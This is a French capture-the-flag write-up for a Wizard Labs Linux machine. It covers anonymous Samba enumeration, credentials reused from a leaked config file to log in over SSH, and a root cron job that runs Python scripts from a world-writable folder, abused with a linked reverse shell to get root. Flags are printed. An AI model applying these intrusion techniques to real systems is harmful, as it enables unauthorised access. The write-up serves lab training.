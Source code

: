 # Solution du CTF Panopticon de Wizard Labs

Emoticon
--------

*Panopticon* est un CTF basé Linux proposé sur [Wizard Labs](https://labs.wizard-security.net/).  

Il est annoncé avec une difficulté de 2/10 donc facile :p   

Lexicon
-------

La machine dispose d'un serveur SSH, d'un serveur web Apache ainsi que des ports 139 et 445 rattachés au service Samba.  

L'utilitaire *enum4linux* est généralement utile pour l'énumération SMB. Il indique ici la présence d'un partage de fichier et la possibilité des connexions anonymes (NULL sessions):  

```plain
 =========================================
|    Nbtstat Information for 10.1.1.34    |
 =========================================
Looking up status of 10.1.1.34
    PANOPTICON      <00> -         B <ACTIVE>  Workstation Service
    PANOPTICON      <03> -         B <ACTIVE>  Messenger Service
    PANOPTICON      <20> -         B <ACTIVE>  File Server Service
    WORKGROUP       <00> - <GROUP> B <ACTIVE>  Domain/Workgroup Name
    WORKGROUP       <1e> - <GROUP> B <ACTIVE>  Browser Service Elections

    MAC Address = 00-00-00-00-00-00

 ==================================
|    Session Check on 10.1.1.34    |
 ==================================
[+] Server 10.1.1.34 allows sessions using username '', password ''
```

Le partage se nomme *public* :  

```plain
[+] Attempting to map shares on 10.1.1.34
//10.1.1.34/public  Mapping: OK, Listing: OK
//10.1.1.34/IPC$    [E] Can't understand response:
```

Et l'énumération des utilisateurs remonte deux entrées intéressantes :  

```plain
[+] Enumerating users using SID S-1-22-1 and logon username '', password ''
S-1-22-1-1000 Unix User\seer (Local User)
S-1-22-1-1001 Unix User\guest (Local User)
```

Voyons voir ce qu'il y a sur ce partage :  

```plain
$ smbclient -U "" -N -I 10.1.1.34 //panopticon/public
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sun Jun 17 17:17:11 2018
  ..                                  D        0  Sat Feb 24 20:27:52 2018
  old-site.zip                        N   427943  Sat Feb 24 20:57:47 2018

        15415240 blocks of size 1024. 13458436 blocks available
smb: \> get old-site.zip
getting file \old-site.zip of size 427943 as old-site.zip (772,5 KiloBytes/sec) (average 772,5 KiloBytes/sec)
```

Une fois cette archive décompressée on trouve des identifiants dans le fichier *php-site-master/app/config/config.php* :  

```php
    'database' => array(
        'adapter' => 'mysql',
        'host' => 'localhost',
        'username' => 'seer',
        'password' => 'IS33Something',
        'dbname' => 'php_site'
    ),
```

Silicon
-------

Une recherche rapide dans le code PHP à la recherche de fonctions exploitables (*include*, *require*, *exec*, *passthru* et compagnie) ne retourne rien d'intéressant.  

Peu importe car les identifiants nous ouvrent les portes du serveur SSH :)  

L'utilisateur *seer* fait partie de la plupart des groupes que l'on voit de nos jours sur un système Linux mais n'est pas dans le groupe *sudo*.  

En dehors du flag je remarque un fichier texte intéressant :  

```plain
$ ls -l ..
total 20
drwxrwxrwx 2 root root 4096 Dec  2 16:21 dev_departement
drwxr-xr-x 2 root root 4096 Feb 24  2018 personal
drwxr-xr-x 2 root root 4096 Feb 24  2018 stuff
drwxr-xr-x 2 root root 4096 Feb 24  2018 tools
-rw-r--r-- 1 seer seer   33 Jun 17 16:55 user.txt

seer@Panopticon:~$ cat user.txt
6d3934480b23c0ca3d164cf19fa11946

seer@Panopticon:~$ cat dev_departement/dev.txt
Hello Seer !! You are the only script developper in this departement ... Like I said you , please drop here all your scripts maybe they can make my life easier :)

Brenda&
```

Intéressant... Ça laisse supposer que l'on peut laisser des scripts dans l'un des dossiers et attendre que *Brenda* les exécute.  

Pourtant pas d'utilisateur *brenda* sur le système, juste nous et *root*. On peut donc espérer une escalade de privilèges directement vers root.  

Mais j'ai beau avoir placé un script ou un binaire à différents emplacements autorisés (l'accès est impossible sur certains, voir le résultat de *ls* ci-dessus), rien ne semble exécuté.  

Une recherche sur l'utilisateur courant a remonté une entrée étrange dans */etc/issue* :  

```plain
seer@Panopticon:~$ grep -r seer /etc/ 2> /dev/null
/etc/aliases:root: seer
/etc/issue:2. in /home/seer/flag2.txt
/etc/services:afs3-bos  7007/tcp            # basic overseer process
/etc/subgid:seer:100000:65536
/etc/subuid:seer:100000:65536
/etc/passwd:seer:x:1000:1000:seer,,,:/home/seer:/bin/bash
/etc/group:cdrom:x:24:seer
/etc/group:floppy:x:25:seer
/etc/group:audio:x:29:seer
/etc/group:dip:x:30:seer
/etc/group:video:x:44:seer
/etc/group:plugdev:x:46:seer
/etc/group:netdev:x:108:seer
/etc/group:seer:x:1000:
seer@Panopticon:~$ cat /etc/issue
Welcome to Panopticon.

There are 3 flags to be found.

1. in /home/guest/public/flag1.txt
2. in /home/seer/flag2.txt
3. in /root/flag3.txt

This machine is made in order to test the mindset and not the technical
knowledge, although some basic pentesting experience is needed.

Enjoy and give me some feedback at perselis.e@gmail.com or
at facebook on the name emmanouil perselis.

Made by AXANO
IP: \4
```

Il semble que le premier flag ne soit plus d'actualité. Cela ne nous avance pas plus que ça.  

En revanche la recherche a mis en évidence l'alias mail de *seer* pour root (dans */etc/aliases*) et effectivement au bout d'un moment j'ai la notification d'un mail reçu dans le terminal.  

```plain
seer@Panopticon:~$ mail
"/var/mail/seer": 26307 messages 26307 new
>N   1 seer               Fri Feb 23 21:26  16/729   *** SECURITY information for Panopticon.Panopticon ***
 N   6 Cron Daemon        Sat Feb 24 21:30  35/1495  Cron <root@Panopticon> /home/seer/update.sh
 N  21 Cron Daemon        Sat Feb 24 22:04  44/2198  Cron <root@Panopticon> /home/seer/.update.sh
```

On voit ici que l'utilisateur a 26307 messages dans sa boîte ^\_^.  

*mail* est un vieux programme permettant l'envoi et la lecture du courrier depuis */var/spool/mail*.  

On peut lister les mails avec la commande *'l'*, afficher le contenu d'un message en rentrant son numéro, supprimer avec *'d'* suivi du numéro pour supprimer un email (ou l'astérisque pour tout supprimer) et enfin *'q'* pour quitter.  

Ici on voit qu'une tache *crontab* tente de lancer le script */home/seer/update.sh* ou */home/seer/.update.sh*.  

J'ai donc placé un script qui place un bash setuid à ces emplacements mais au bout d'un moment toujours rien :(.  

Favicon
-------

Finalement nouveau mail reçu :  

```plain
You have new mail in /var/mail/seer
 U2625 Cron Daemon        Sun Dec  2 14:48  23/849   Cron <root@Panopticon> bash /var/tmp/.lol.sh
python3: can't open file '*.py': [Errno 2] No such file or directory
```

J'aurais du aller lire le dernier email directement :p  

On a donc un script dans */var/tmp* qui essaye d'exécuter tous les scripts Python (on suppose dans le même dossier car le script n'est pas lisible) :  

```plain
-rwx------ 1 root root 125 Jun 27 14:38 /var/tmp/.lol.sh
```

J'ai eu recours [au reverse shell PTY Python d'Infodox](https://github.com/infodox/python-pty-shells/blob/master/tcp_pty_backconnect.py) et après un moment ça a payé :  

```plain
$ python2 tcp_pty_shell_handler.py -b 0.0.0.0:7777
root@Panopticon:/home/seer/dev_departement# id
uid=0(root) gid=0(root) groups=0(root)
root@Panopticon:/home/seer/dev_departement# cd /root
root@Panopticon:~# ls
root.txt
root@Panopticon:~# cat root.txt
8b470f864495744fcd8c3dc7b370e889
root@Panopticon:~# crontab -l
# Edit this file to introduce tasks to be run by cron.
#
# Each task to run has to be defined through a single line
# indicating with different fields when the task will be run
# and what command to run for the task
#
# To define the time you can provide concrete values for
# minute (m), hour (h), day of month (dom), month (mon),
# and day of week (dow) or use '*' in these fields (for 'any').#
# Notice that tasks will be started based on the cron's system
# daemon's notion of time and timezones.
#
# Output of the crontab jobs (including errors) is sent through
# email to the user the crontab file belongs to (unless redirected).
#
# For example, you can run a backup of all your user accounts
# at 5 a.m every week with:
# 0 5 * * 1 tar -zcf /var/backups/home.tgz /home/
#
# For more information see the manual pages of crontab(5) and cron(8)
#
# m h  dom mon dow   command

*/2 * * * * bash /var/tmp/.lol.sh
root@Panopticon:~# cat /var/tmp/.lol.sh
cd /home/seer/dev_departement
for f in *.py; do  # or wget-*.sh instead of *.sh
  python3 "$f"   || break # if needed
done
```


*Published November 17 2020 at 13 38*